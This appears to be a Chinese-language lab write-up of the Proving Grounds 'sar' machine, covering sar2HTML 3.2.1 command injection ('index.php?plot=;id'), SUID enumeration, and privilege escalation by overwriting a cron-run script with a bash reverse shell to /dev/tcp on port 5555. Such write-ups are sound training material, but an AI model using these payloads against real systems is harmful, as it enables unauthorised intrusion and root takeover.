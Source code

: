 ```yaml
---
layout: post
title: "[PGPlay] sar 靶機 write Up"
date: 2024-06-03 23:10:02 +0800
categories: [offsec]
tags: [offsec]
---
```

本系列為 Proving Grounds Play Free 靶機

Port Scan 後發現 含有80 Port

進入系統後發現 含有一個預設頁面

![](../static/img/2024-06-03/Untitled.png)

查看 robots.txt 發現有個 `sar2HTML`

![](../static/img/2024-06-03/Untitled%201.png)

## 讀取 sar2HTML頁面

![](../static/img/2024-06-03/Untitled%202.png)

左上角有 sar2HTML 版本字樣 丟google 就有Exploit 可參考

sar2HTML V3.2.1  含有 Command Injection 漏洞

payload為 `index.php?plot=;id`

![](../static/img/2024-06-03/Untitled%203.png)

發現可 Command Injection 直接 revshell

![](../static/img/2024-06-03/Untitled%204.png)

接著 cat local.txt

![](../static/img/2024-06-03/Untitled%205.png)

## 提權

提權部分卡了許久

查看 uname -a 無發現可利用 Exploit

![](../static/img/2024-06-03/Untitled%206.png)

使用 `find / -perm -4000`

`find / -perm -04000 -type f -ls`

發現 /bin/ping 有超級使用者

但無 gcc 功能

![](../static/img/2024-06-03/Untitled%207.png)

最後去看 Write up  發現使用 `Linpeas.sh` 去執行

會出現 `/var/www/finally.sh` 權限為root, 使用 crontab 每五分鐘執行一次

![](../static/img/2024-06-03/Untitled%208.png)

查看 `finally.sh` 發現內容為執行 `write.sh`

`write.sh` 擁有者為 www-data 可進行編輯

輸入反連指令 改寫並覆蓋內容

`echo '**bash** -i >& /dev/tcp/**192.168.45.206**/**5555** 0>&1' > write.sh`

開啟 nc 等待五分鐘後  取得 root 權限 讀取`proof.txt`

![](../static/img/2024-06-03/Untitled%209.png)
